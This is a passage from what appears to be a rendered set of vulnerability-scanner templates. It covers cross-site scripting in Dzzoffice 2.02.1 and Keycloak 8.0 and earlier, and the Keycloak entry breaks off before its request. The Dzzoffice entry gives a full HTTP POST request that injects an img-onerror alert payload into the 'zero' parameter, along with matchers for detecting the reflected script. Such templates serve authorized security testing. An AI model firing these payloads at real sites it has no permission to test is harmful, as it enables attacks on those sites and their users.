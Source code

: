 **Type - status**
- status
    1. 200

**Type - word**
- words
    1. \<script>alert(31337)\</script>
- part - body

**Type - word**
- words
    1. text/html
- part - header

---
# Dzzoffice 2.02.1 - Cross-Site Scripting
## Description
- Dzzoffice 2.02.1_SC_UTF8 contains a cross-site scripting vulnerability which allows remote attackers to inject arbitrary web script or HTML via the zero parameter.

- severity - high
- tags - dzzoffice,xss
## Requests
### Step - 1
```
POST /index.php?mod=system&op=orgtree&do=orgtree HTTP/1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

id=%23&nouser=0&moderator=0&zero=\<img+src=x+onerror=alert(document.domain)>&stype=0&range=0&showjob=0

```
### Matchers

**Type - word**
- words
    1. "text":"\<img src=x onerror=alert(document.domain)>

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# Keycloak \<=8.0 - Cross-Site Scripting
## Description
- Keycloak 8.0 and prior contains a cross-site scripting vulnerability.  An attacker can execute arbitrary script and thus steal cookie-based authentication credentials and launch other attacks.
- severity - info
- tags - keycloak,xss
## Requests
### Step - 1